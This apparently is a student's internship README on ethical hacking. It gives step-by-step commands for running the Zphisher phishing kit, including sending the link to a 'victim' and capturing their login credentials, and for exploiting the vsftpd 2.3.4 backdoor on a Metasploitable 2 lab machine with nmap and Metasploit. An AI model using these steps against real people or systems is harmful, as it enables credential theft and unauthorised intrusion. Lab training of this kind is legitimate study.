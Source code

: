 # Week-4-AdvancedTopicsandEthicalHacking-
Sapience Edu Connect Pvt Ltd -Internship task-4

## 1.PerformPhishingusingZphisher.(Finditinyourownway!). 
 
 
## Step1: Install   Zphisher using this command 
 
 git clone https://github.com/htr-tech/zphisher.git 
 
## step2: 
           cd Zphisher 
## step3: 
           bash zphisher.sh       
  
## Step4: Enter number of  platform you want 
 
## Step5: select option 1 
          
## Step6: select option 2 
 
Select :N 
          
## Step7: copy the url and send to victim 
 
 
## step8: after the victim entering their details we will get the details 

Here we got the login credentials!!
  
# 2.Machinetohack(usemetasploitable2machineasavictim)    
     ●Find  and  exploit the vsftpd vulnerability by using nmap and     
the Metasploi tframework. 
 ● Target and exploit the machine throughout  the persistence   
phase. 
 
## Step 1: Identify the Target 
First, ensure you have the IP address of the Metasploitable 2 machine 
Using command ifconfig 
 
## Step 2: Scan the Target with Nmap 
Use Nmap to scan the target machine and identify open ports and 
services. 
 
Nmap -sV 172.20.10.3 

Here number of ports are open  
 
Now we are exploiting port 21/tcp ftp(services) vsftpd 
 
## Step 3: Exploit the vsftpd Vulnerability with Metasploit 
 
 
## Commands: 

### msfconsole  
 
### search vsftpd 

 
### use exploit/unix/ftp/vsftpd_234_backdoor 

 
### Show options 

### set RHOST 172.20.10.3 
 
### exploit 
 
we successfully  got a shell on the target machine and  we successfully  
exploit the 
metasploitable2.  
